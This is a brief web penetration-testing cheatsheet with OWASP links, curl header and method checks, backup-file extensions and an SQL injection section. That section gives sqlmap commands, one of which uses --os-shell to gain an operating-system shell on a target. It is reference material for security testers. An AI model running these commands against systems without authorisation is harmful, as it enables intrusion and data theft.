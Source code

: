 # Web Penetration Testing Cheatsheet

### Important
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP testing guide](https://owasp.org/www-project-web-security-testing-guide/)
- [The WASC Threat Classification v2.0](http://projects.webappsec.org/w/page/13246978/Threat%20Classification)

- `curl -i IP` Inspect headers using -v(verbose output) or -i
- `curl -X OPTIONS Domain.com -i` Check if PUT, DELETE, MOVE are accepted

### Checks
1. Client side validation
2. Database interaction
3. File upload/download
4. Display of user input
5. Redirections
6. Access control and Login protected pages
7. Error messages - Status codes (404,403,5xx)

### Extensions and Files
- `bak, bac, old, 000, 001, ~, 01, _bak, inc, Xxx`
- Files: `.git, .htaccess, robots.txt`

### XSS
### SQLi
- [https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- SQL statements
  - SELECT <col> FROM <table> WHERE <condiation>;
  - <SELECT statement> UNION <another SELECT statement>
  - SELETC user()
- Sqlmap
  - GET `sqlmap -u "http://ip/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title`
  - POST `sqlmap -r request.txt -p title`
  - Shell `sqlmap -r request.txt -p title --os-shell`

